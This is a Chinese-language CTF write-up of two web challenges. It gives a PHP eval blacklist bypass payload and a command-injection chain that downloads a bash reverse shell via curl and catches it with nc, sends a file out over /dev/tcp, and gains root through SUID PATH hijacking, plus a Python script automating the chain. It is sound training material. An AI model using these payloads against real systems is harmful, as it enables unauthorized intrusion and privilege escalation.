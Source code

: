 ```yaml
---
title: 2020BMZctf-Writeup
comments: false
hide: false
date: 2020-12-28 20:47:11
urlname: bmzctf2020
updated:
permalink:
tags:
  - 命令执行
  - 提权
  - 反弹shell
categories:
  - Write-Up
---
```




## 2020BMZCTF Write-up

随缘做了两道web

昵称：Err0r

<!-- more -->

### WEB

#### WEB_ezeval

源码

```php
<?php

highlight_file(__FILE__);
$cmd=$_POST['cmd'];
$cmd=htmlspecialchars($cmd);
$black_list=array('php','echo','`','preg','server','chr','decode','html','md5','post','get','file','session','ascii','eval','replace','assert','exec','cookie','$','include','var','print','scan','decode','system','func','ini_','passthru','pcntl','open','link','log','current','local','source','require','contents');
$cmd = str_ireplace($black_list,"BMZCTF",$cmd);
eval($cmd);

?>
```

ban了一堆函数，但肯定还有能用的，`<>"`因为`htmlspecialchars`也是不能用的

往无参数RCE方向走发现不太可行，最后利用`base_convert`构造语句

把`system`由base36转为base10，利用`base_convert(2146934604002,10,36)`发现可以执行系统命令，于是想读取根目录flag发现`/`传不进去，于是继续`base_convert(16191,10,36)`，利用`chr`函数转换`/`，最终读取flag

payload：`cmd=base_convert(2146934604002,10,36)(base_convert(16191,10,36)(47).flag);`

![image-20201228205633315](bmzctf2020/image-20201228205633315.png)





---

#### WEB_penetration

主要考察反弹shell，提权

打开得源码

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['ip'])){
    $ip = $_GET['ip'];
    $_=array('b','d','e','-','q','f','g','i','p','j','+','k','m','n','\<','\>','o','w','x','\~','\:','\^','\@','\&','\'','\%','\"','\*','\(','\)','\!','\=','\.','\[','\]','\}','\{','\_');
    $blacklist = array_merge($_);
    foreach ($blacklist as $blacklisted) {
        if (strlen($ip) <= 18){
            if (preg_match ('/' . $blacklisted . '/im', $ip)) {
                die('nonono');
            }else{
            exec($ip);
            }
            
        }
        else{
        die("long");
        }
    }
    
}
?>
```

命令执行，`ip`经过blacklist过滤后exec执行，但是测着发现foreach会每次取一位然后来执行，执行多次，也就是说只要不含`b`就可以执行，这里可以直接执行，但限制了18个字符的长度限制发挥，尝试反弹shell，明显反弹shell第一个单词`bash`会被过滤，另寻方法。

首先就执行`find / -name fl*>1`，执行后输出结果到文件1，结果发现根本就没有flag！

测试echo可写，于是准备写个一句话木马，结果发现写的.php不执行，应该是写了规则。

于是准备写个`.htaccess`，结果一写直接500内部服务报错。

老实弹shell吧。

想直接写`bash -i >& /dev/tcp/[ip]/[port] 0>&1`，结果发现`&`写不进去，测试发现靶机可连外网，于是在自己服务器上写个名为1的文件，内容为`bash -i >& /dev/tcp/[ip]/[port] 0>&1`

再在靶机写个文件`1d`，内容为`curl ip/1>1`

运行`sh 1d`，发现不行，估计没有执行权限，赋予，`chmod 777 1d`，靶机运行了curl命令，访问我的服务器下载了文件1，这样就成功写了反弹shell的命令

在我的服务器监听端口，`nc -lvp [port]`

再给1赋予执行权限`chmod 777 1`，需要用bash执行，可是不可以含有`b`，于是利用`b`和`[a-c]`，即执行`/?in/[a-c]ash 1`

我的服务器成功getshell

![image-20201228211635023](bmzctf2020/image-20201228211635023.png)

根目录下没有发现flag，也没有readflag，找也找不到flag，有个`start.sh`，读取一下看看

```sh
www-data@2a4c1fe2f663:/var/www/html$ cat /start.sh
cat /start.sh
#!/bin/bash 

chmod 755 index.php
gcc /root/demo.c -o love
mv love /usr/bin/love
chmod u+s /usr/bin/love

rm /var/log/apache2/access.log
rm /var/log/apache2/error.log
```

关键在这个`/user/bin/love`

读出来看看，服务器开监听端口，靶机shell执行`cat /usr/bin/love > /dev/tcp/[ip]/[port]`

![image-20201228212753119](bmzctf2020/image-20201228212753119.png)

成功拿到文件，拷下来反编译一下(web狗汗颜)

![image-20201228212718787](bmzctf2020/image-20201228212718787.png)

结果就是系统执行个ps命令

结合find发现了的一点东西

![image-20201228211807363](bmzctf2020/image-20201228211807363.png)

`/root`目录没有权限，也许可能考点就是提权了

这是一个具有SUID权限的程序，在tmp目录写个内容为`/bin/bash`的ps文件，添加进环境变量，这样执行程序调用ps命令会优先从这里执行，而这里是我们伪造的ps命令，然后相当于以高级权限执行了`/bin/bash`。

```bash
echo "/bin/bash" > /tmp/ps
chmod 777 ps
echo $PATH
export PATH=.:$PATH
/usr/bin/love
```

成功提权，直接`cat /root/flag`

![image-20201228213633573](bmzctf2020/image-20201228213633573.png)



理解了师傅之前说的，提权，才是开始。

是的，权限真香，这才刚刚开始

后面再研究吧

附上一键弹shell脚本：

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2020/12/26 20:36
@Auth ： gyy
@Blog：http://err0r.top

"""
import requests
baseurl = "http://www.bmzclub.cn:21257/"

def req(url):
    res = requests.get(url).content.decode('utf8')
    return res

def execit(payload):
    url = baseurl+"?ip="+payload
    res = req(url)
    if "long" not in res:
        return 1
    else:
        return 0

def check(url):
    res = req(url)
    print(res)

if __name__ == "__main__":
    payload1 = "curl [ip]/[filename]>1"
    i = 0
    flag = 1
    while i < len(payload1):
        if flag:
            payload = "echo '" + payload1[i:i + 5] + "\c'>1d"
            execit(payload)
            i += 5
            flag -=1
        payload = "echo '"+payload1[i:i+5]+"\c'>>1d"
        execit(payload)
        i +=5
    check(baseurl+"1d")
    # bash -i >& /dev/tcp/[ip]/[port] 0>&1
    execit("chmod 777 1d")
    execit("sh 1d")
    execit("chmod 777 1")
    execit("/?in/[a-c]ash 1")
```





---

### 总结

很有收获，不枉这两题，尤其的第二题，非常有价值。

当然不能小看第一题，别看WP短短几行，背后是无数次的尝试与探索，第二题更是如此。

2020年最后一份WP，还有很长路要走，加油吧。